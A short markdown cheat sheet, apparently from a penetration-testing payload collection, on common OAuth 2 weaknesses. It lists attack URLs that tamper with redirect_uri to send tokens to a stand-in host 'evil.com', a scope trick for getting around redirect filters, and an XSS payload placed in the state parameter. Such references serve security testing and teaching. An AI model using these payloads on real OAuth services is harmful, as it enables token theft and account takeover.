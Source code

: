 # OAuth 2 - Common vulnerabilities

## Grabbing OAuth Token via redirect_uri
```
https://www.example.com/signin/authorize?[...]&redirect_uri=https://demo.example.com/loginsuccessful
https://www.example.com/signin/authorize?[...]&redirect_uri=https://localhost
https://www.example.com/signin/authorize?[...]&redirect_uri=https://localhost.evil.com
https://www.example.com/oauth20_authorize.srf?[...]&redirect_uri=https://accounts.google.com/BackToAuthSubTarget?next=https://evil.com
```
Sometimes you need to change the scope to an invalid one to bypass a filter on redirect_uri:
```
https://www.example.com/admin/oauth/authorize?[...]&scope=a&redirect_uri=https://evil.com
```

## Executing XSS via redirect_uri
```
https://example.com/oauth/v1/authorize?[...]&redirect_uri=data%3Atext%2Fhtml%2Ca&state=<script>alert('XSS')</script>
```

## OAuth private key disclosure
Some Android/iOS app can be decompiled and the OAuth Private key can be accessed.

## Authorization Code Rule Violation
```
The client MUST NOT use the authorization code  more than once.  
If an authorization code is used more than once, the authorization server MUST deny the request 
and SHOULD revoke (when possible) all tokens previously issued based on that authorization code.
```

## Thanks to
* http://blog.intothesymmetry.com/2016/11/all-your-paypal-tokens-belong-to-me.html
* http://homakov.blogspot.ch/2014/02/how-i-hacked-github-again.html
* http://intothesymmetry.blogspot.ch/2014/04/oauth-2-how-i-have-hacked-facebook.html
